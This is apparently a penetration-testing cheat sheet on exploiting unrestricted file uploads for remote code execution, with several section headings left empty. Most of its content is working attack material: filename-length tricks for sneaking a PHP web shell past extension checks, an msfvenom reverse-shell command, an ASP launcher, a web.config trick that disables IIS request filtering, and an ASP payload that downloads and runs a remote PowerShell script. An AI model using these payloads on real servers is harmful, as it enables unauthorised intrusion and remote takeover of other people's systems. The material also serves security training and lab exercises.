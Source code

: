 ```yaml
---
description: Different ways to upload files and get RCE.
---
```


# Unrestricted File Upload

## Introduction



## Identifies restrictions

### Extension 

Shortening the size \(falafel.htb\):

Linux maximum 255 chars

```text
touch $(python3 -c "print('A'*251+'.png')")
wget 'http://10.10.14.20:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.png'
```

Search the correct offset and upload again:

```text
echo '<?php system($_GET["cmd"]);?>' > $(python3 -c 'print("A"*(236-4)+".php.png")')
wget 'http://10.10.14.20:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'
```

### Size

### Name

### Magic Number

### Content



## ASP

First we need to generate the reverse shell.

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o rev.exe
```

Finally upload the `rev.asp` and `rev.exe` files to get a connection shell back.

```text
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\rev.exe",0,True)
%>
```

## .config RCE \(IIS\)

Uploading a `web.config` file to execute asp commands.

```text
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
Response.write(1+1)
%>
```

If this works we can execute a reverse shell.

```text
<%
Set objShell = CreateObject("WScript.Shell")
strCommand = "cmd /c powershell.exe -c IEX (New-Object Net.Webclient).downloadstring('http://<ip-addr>/shell.ps1')"
Set objShellExec = objShell.Exec(strCommand)
strOutput = objShellExec.StdOut.ReadAll()
WScript.StdOut.Write(strOutput)
WScript.Echo(strOutput)
%>
```

